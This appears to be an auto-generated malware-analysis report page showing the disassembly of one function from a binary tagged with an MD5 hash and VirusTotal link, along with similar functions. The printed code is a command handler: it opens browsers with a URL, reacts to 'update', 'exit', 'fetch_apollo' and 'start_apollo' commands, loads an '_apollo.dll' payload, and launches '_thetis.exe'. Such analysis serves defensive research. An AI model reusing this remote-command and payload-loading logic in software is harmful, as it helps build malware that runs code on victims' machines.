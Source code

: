```yaml
---
layout: post
title:  "fcn.0051e787 @ d65363c7c6c188277432c9e4251c44e5"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0051e787
- **Origin (md5):** d65363c7c6c188277432c9e4251c44e5
- **VirusTotal:** [virustotal.com/gui/file/d65363c7c6c188277432c9e4251c44e5][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.0051eaed][similar_1_ref] (sim.: 0.904924544636078)
2. [fcn.00404a20][similar_2_ref] (sim.: 0.8879073465055897)
3. [fcn.005229cc][similar_3_ref] (sim.: 0.8860312453225687)
4. [fcn.0052a880][similar_4_ref] (sim.: 0.8681280103883744)
5. [fcn.004687e0][similar_5_ref] (sim.: 0.8660792287422121)


# Disassembled Code

{% highlight nasm %}
jmp 0x54df10
push ebp
mov ebp,esp
push 0xffffffffffffffff
push 0x7640dc
mov eax,dword fs:[0]
push eax
sub esp,0x3b0
push ebx
push esi
push edi
lea edi,[ebp-0x3bc]
mov ecx,0xec
mov eax,0xcccccccc
rep stosd dword es:[edi],eax
mov eax,dword[0x7e2f74]
xor eax,ebp
mov dword[ebp-0x10],eax
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
mov dword[ebp-4],0
mov ecx,0x7ec046
call fcn.0052068b
mov byte[ebp-0x21],0
mov byte[ebp-0x2d],0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x330],esp
lea eax,[ebp+8]
push eax
call fcn.00520af0
call fcn.0051d620
add esp,0x1c
mov byte[ebp-0x3b9],al
mov cl,byte[ebp-0x3b9]
mov byte[ebp-0x39],cl
movzx eax,byte[ebp-0x39]
test eax,eax
je 0x54e0c2
lea ecx,[ebp-0x15]
call fcn.0052314c
movzx eax,al
test eax,eax
je 0x54dffa
mov esi,esp
push 0
push 0
lea ecx,[ebp+8]
call fcn.0051c3b5
push eax
push str.chrome.exe
push 0
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
cmp esi,esp
call fcn.00520929
mov byte[ebp-0x21],1
push str.Achilles___Google_Chrome
sub esp,0x28
mov ecx,esp
mov dword[ebp-0x33c],esp
push 0x520366
call fcn.00521b03
call fcn.0052064a
add esp,0x2c
movzx eax,byte[ebp-0x21]
test eax,eax
jne 0x54e05c
lea ecx,[ebp-0x15]
call fcn.0051fab5
movzx eax,al
test eax,eax
je 0x54e05c
mov esi,esp
push 0
push 0
lea ecx,[ebp+8]
call fcn.0051c3b5
push eax
push str.opera.exe
push 0
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
cmp esi,esp
call fcn.00520929
mov byte[ebp-0x2d],1
push str.Achilles___Opera
sub esp,0x28
mov ecx,esp
mov dword[ebp-0x348],esp
push 0x520366
call fcn.00521b03
call fcn.0052064a
add esp,0x2c
movzx eax,byte[ebp-0x2d]
test eax,eax
jne 0x54e0c2
movzx eax,byte[ebp-0x21]
test eax,eax
jne 0x54e0c2
lea ecx,[ebp-0x15]
call fcn.00523610
movzx eax,al
test eax,eax
je 0x54e0c2
mov esi,esp
push 0
push 0
lea ecx,[ebp+8]
call fcn.0051c3b5
push eax
push str.firefox.exe
push 0
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
cmp esi,esp
call fcn.00520929
push str.Achilles___Mozilla_Firefox
sub esp,0x28
mov ecx,esp
mov dword[ebp-0x354],esp
push 0x520366
call fcn.00521b03
call fcn.0052064a
add esp,0x2c
push 0
push str.update
lea ecx,[ebp+8]
call fcn.0051b0c3
cmp eax,0xffffffff
je 0x54e112
push 0xffffffffffffffff
push 6
lea eax,[ebp-0x60]
push eax
lea ecx,[ebp+8]
call fcn.00521a7c
mov byte[ebp-4],1
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x360],esp
lea eax,[ebp-0x60]
push eax
call fcn.00520af0
call fcn.00524fba
add esp,0x1c
mov byte[ebp-4],0
lea ecx,[ebp-0x60]
call fcn.0051ff0b
push str.exit
lea eax,[ebp+8]
push eax
call fcn.0051bab4
add esp,8
movzx ecx,al
test ecx,ecx
je 0x54e16c
push str.192.168.0.5
lea ecx,[ebp-0x84]
call fcn.00524cd6
mov byte[ebp-4],2
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x36c],esp
lea eax,[ebp-0x84]
push eax
call fcn.00520af0
call fcn.00524fba
add esp,0x1c
mov byte[ebp-4],0
lea ecx,[ebp-0x84]
call fcn.0051ff0b
push str.fetch_apollo
lea eax,[ebp+8]
push eax
call fcn.0051bab4
add esp,8
movzx ecx,al
test ecx,ecx
je 0x54e189
call fcn.005254e7
push str.start_apollo
lea eax,[ebp+8]
push eax
call fcn.0051bab4
add esp,8
movzx ecx,al
test ecx,ecx
je 0x54e36f
call fcn.0052159a
test eax,eax
jne 0x54e2e7
lea eax,[ebp-0xa8]
push eax
call fcn.00522328
add esp,4
mov byte[ebp-4],3
push str._apollo.dll
lea eax,[ebp-0xa8]
push eax
lea ecx,[ebp-0x390]
push ecx
call fcn.005237e6
add esp,0xc
mov dword[ebp-0x3bc],eax
mov edx,dword[ebp-0x3bc]
push edx
lea ecx,[ebp-0xa8]
call fcn.00522fd0
lea ecx,[ebp-0x390]
call fcn.0051ff0b
push 0xb8
lea ecx,[ebp-0x168]
call fcn.0051ebd3
push 1
push 0x40
push 1
lea eax,[ebp-0xa8]
push eax
lea ecx,[ebp-0x168]
call fcn.00520cd0
mov byte[ebp-4],4
mov eax,dword[ebp-0x168]
mov ecx,dword[eax+4]
lea ecx,[ebp+ecx-0x168]
call fcn.0052383b
movzx edx,al
test edx,edx
je 0x54e2c4
lea ecx,[ebp-0xa8]
call fcn.0051c3b5
mov esi,esp
push eax
call dword[sym.imp.KERNEL32.dll_LoadLibraryA]
cmp esi,esp
call fcn.00520929
mov dword[ebp-0x174],eax
cmp dword[ebp-0x174],0
je 0x54e2c4
mov esi,esp
push str.startApollo
mov eax,dword[ebp-0x174]
push eax
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
cmp esi,esp
call fcn.00520929
mov dword[ebp-0x180],eax
mov esi,esp
call dword[ebp-0x180]
cmp esi,esp
call fcn.00520929
cmp dword[ebp-0x180],0
jne 0x54e2c4
mov esi,esp
mov eax,dword[ebp-0x174]
push eax
call dword[sym.imp.KERNEL32.dll_FreeLibrary]
cmp esi,esp
call fcn.00520929
mov byte[ebp-4],3
lea ecx,[ebp-0x168]
call fcn.0051b78a
mov byte[ebp-4],0
lea ecx,[ebp-0xa8]
call fcn.0051ff0b
jmp 0x54e36f
lea eax,[ebp-0x1a4]
push eax
call fcn.00522328
add esp,4
mov byte[ebp-4],5
push str._thetis.exe
lea eax,[ebp-0x1a4]
push eax
lea ecx,[ebp-0x3b4]
push ecx
call fcn.005237e6
add esp,0xc
mov dword[ebp-0x3bc],eax
mov edx,dword[ebp-0x3bc]
push edx
lea ecx,[ebp-0x1a4]
call fcn.00522fd0
lea ecx,[ebp-0x3b4]
call fcn.0051ff0b
mov esi,esp
push 0
push 0
push 0
lea ecx,[ebp-0x1a4]
call fcn.0051c3b5
push eax
push str.open
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
cmp esi,esp
call fcn.00520929
mov byte[ebp-4],0
lea ecx,[ebp-0x1a4]
call fcn.0051ff0b
mov dword[ebp-4],0xffffffff
lea ecx,[ebp+8]
call fcn.0051ff0b
push edx
mov ecx,ebp
push eax
lea edx,[0x54e3b8]
call fcn.00520dbb
pop eax
pop edx
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
pop ebx
mov ecx,dword[ebp-0x10]
xor ecx,ebp
call fcn.0051fccc
add esp,0x3bc
cmp ebp,esp
call fcn.00520929
mov esp,ebp
pop ebp
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.0051eaed@d65363c7c6c188277432c9e4251c44e5
[similar_2_ref]: /report/fcn.00404a20@a1c6b07868a0eea8f4ee5a872aa71909
[similar_3_ref]: /report/fcn.005229cc@d65363c7c6c188277432c9e4251c44e5
[similar_4_ref]: /report/fcn.0052a880@c60344b51fa39a329b92557d24ff7670
[similar_5_ref]: /report/fcn.004687e0@c60344b51fa39a329b92557d24ff7670
[virustotal_ref]: https://www.virustotal.com/gui/file/d65363c7c6c188277432c9e4251c44e5